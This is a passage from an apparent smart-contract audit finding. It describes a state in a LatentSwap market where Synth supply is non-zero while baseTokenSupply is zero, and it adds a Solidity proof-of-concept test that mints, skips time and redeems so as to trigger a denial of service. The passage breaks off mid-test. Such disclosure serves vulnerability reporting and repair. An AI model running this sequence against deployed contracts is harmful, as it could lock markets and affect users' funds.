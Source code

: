 ```solidity
}
```

However, this state, where the Synth token supply is non-zero but `baseTokenSupply` is 0 can occur, especially in the early stages of the market.

PoC : 

Add the following test to `LatentSwapLEX.t.sol` : 

```solidity
    function test_PoC_DoSMarket() external {
        UnderCollateralizedTestParams memory params;

        // Set initial supply
        params.initialSupply = 1e9; 

        // deploy latentSwapLEX liquid
        MockLatentSwapLEX latentSwapLEX = new MockLatentSwapLEX(
            address(this),
            P_MAX,
            P_MIN,
            P_TARGET,
            P_LIM_H,
            P_LIM_L,
            10 ** 18,
            DURATION,
            100
        );

        // Initialize
        MarketId marketId = MarketId.wrap(keccak256("Random market (LatentSwap does not verify)"));
        MarketParams memory marketParams = MarketParams({
            baseToken: _mockBaseAsset,
            quoteToken: _mockQuoteAsset,
            oracle: _mockOracle,
            lex: address(latentSwapLEX)
        });
        latentSwapLEX.initMarket(marketId, marketParams, 100, hex"");

        // Step 1: Mint initial position 
        (params.initialATokenSupply, params.initialZTokenSupply, , ) = latentSwapLEX.mint(
            MintParams({
                marketId: marketId,
                marketParams: marketParams,
                baseAmountIn: params.initialSupply,
                to: address(this),
                minATokenAmountOut: 0,
                minZTokenAmountOut: 0
            }),
            address(this),
            0
        );
        console.log("initial supply A : ", params.initialATokenSupply);
        console.log("initial supply Z : ", params.initialZTokenSupply);

        uint256 timeDelta = (((params.initialSupply) * 1 / 100) + 5) * (365 days * 1e4) / (100 * params.initialSupply) + 1;

        skip(timeDelta);
        (uint256 liquidityOut, uint128 protocolFees , ) = latentSwapLEX.redeem(
            RedeemParams({
                marketId: marketId,
                marketParams: marketParams,
                aTokenAmountIn: params.initialATokenSupply - 2,
```